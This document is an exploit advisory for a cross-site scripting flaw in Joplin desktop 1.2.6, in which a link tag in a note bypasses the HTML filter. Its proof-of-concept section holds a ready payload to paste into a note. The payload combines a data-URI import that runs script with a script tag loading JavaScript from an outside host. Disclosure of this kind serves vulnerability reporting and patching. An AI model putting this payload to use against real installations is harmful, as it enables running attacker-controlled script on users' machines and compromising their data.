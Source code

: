 

 Exploit Title: Joplin 1.2.6 Cross Site Scripting <br>
 Date: 2020-10-27 <br>
 Exploit Author: Philip Holbrook (@fhlipZero) <br>
 Vendor Homepage: https://joplinapp.org/ <br>
 Software Link: https://github.com/laurent22/joplin/releases/tag/v1.2.6  <br>
 Version: 1.2.6  <br>
 Tested on: Windows / Mac  <br>
 CVE : PENDING  <br>
 References:  <br>
 PENDING next release <br>

 1. Technical Details
 An XSS issue in Joplin for desktop v1.2.6 allows a link tag in a note to bypass the HTML filter

 2. PoC
 Paste the following payload into a note:
```
<link rel=import href="data:text/html&comma;&lt;script&gt;alert(XSS)&lt;&sol;script&gt; 
<script src="//brlogic.com.br&sol;1.js&num; </script>
```
<img src="./60b6772ab455487b92268ad45a6dd677.png" width="500">

<img src="./7f76fb066b9d4e3bad4c4b59538140e4.png" width="500">
